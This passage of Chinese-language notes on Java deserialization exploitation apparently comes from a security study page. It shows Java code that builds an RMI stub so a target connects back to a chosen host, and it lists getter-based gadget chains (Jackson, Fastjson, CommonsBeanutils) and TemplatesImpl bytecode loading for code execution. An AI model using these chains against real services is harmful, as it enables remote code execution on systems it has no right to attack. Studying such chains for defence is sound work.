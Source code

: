 用RMIConnectionImpl\_Stub替换RemoteObjectInvocationHandler，还没研究暂时先不写了.....

根据网上文章调用链构造代码如下：

```java
public Object getObject() throws Exception {
    String host;
    int port;
    int sep = this.address.indexOf(58);
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = this.address;
    } else {
        host = this.address.substring(0, sep);
        port = Integer.valueOf(this.address.substring(sep + 1)).intValue();
    }
    ObjID id = new ObjID(new Random().nextInt());
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RMIConnectionImpl_Stub obj = new RMIConnectionImpl_Stub(ref);
    return obj;
}
```

### 触发Getter方法的利用链

Java反序列化触发Getter方法进行漏洞利用是Java反序列化漏洞利用中很常见的打法，能够触发Getter方法的利用链有：

* Jackson：需要Jackson版本适合才能触发
* Fastjson：分为Fastjson1和Fastjson2利用链
* CommonsBeautils：1.5 1.6 1.7 1.8 1.9
* ....

Getter利用链的漏洞利用方式：

* JDBCAttack
* JdbcRowImpl：有条件限制，还没研究
* LdapAttribute：ldap攻击
* SignedObject：二次Java反序列化
* TemplatesImpl#getOutputProperties：加载字节码实现代码执行

能够触发Getter方法的利用链和Getter利用链的利用方式是多对多关系，所以下面的几种利用链生成方式只介绍Jackson，其他的以此类推：

#### Jackson

##### Templateslmpl 加载字节码(继承AbstractTranslet)

描述：在利用Templateslmpl利用链进行漏洞利用时候需要注意以下几点：

1. Templateslmpl加载字节码jdk编译版本<=目标环境jdk编译版本：[利用TemplatesImpl执行字节码在实战中的踩坑记录](https://y4tacker.github.io/2023/04/25/year/2023/4/%E5%88%A9%E7%94%A8TemplatesImpl%E6%89%A7%E8%A1%8C%E5%AD%97%E8%8A%82%E7%A0%81%E5%9C%A8%E5%AE%9E%E6%88%98%E4%B8%AD%E7%9A%84%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/)

    * javassist支持的字节码编译版本：主版本号49-55(jdk1.5-jdk11)
    * jdk执行字节码向下兼容，所以javassist选取最低的jdk编译版本就行
2. TemplatesImpl在JDK高板本被移除
